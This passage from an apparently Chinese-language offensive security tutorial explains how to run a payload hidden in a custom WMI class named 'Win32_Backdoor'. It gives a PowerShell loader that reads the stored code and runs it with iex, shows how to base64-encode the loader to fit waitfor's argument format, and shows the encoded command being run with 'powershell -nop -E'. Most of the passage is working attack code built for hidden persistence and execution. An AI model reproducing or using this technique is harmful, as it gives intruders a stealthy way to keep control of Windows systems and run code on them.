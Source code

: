 执行payload：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

**注：**

通过Invoke-Expression执行命令也可以，使用iex是为了缩短长度

结合waitfor的参数格式，这里选择将代码编码为base64

对执行payload的代码进行base64编码，以下代码保存在code.txt：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

对其进行base64编码，代码如下：

```
$code = Get-Content -Path code.txt
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded 
```

获得base64加密代码如下：

```
JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA== 
```

以上操作如下图

![image](../img/b1250ce43210047045d93c6f0cfbb0ea.png)

测试base64加密代码：

```
powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA== 
```

成功执行代码，如下图
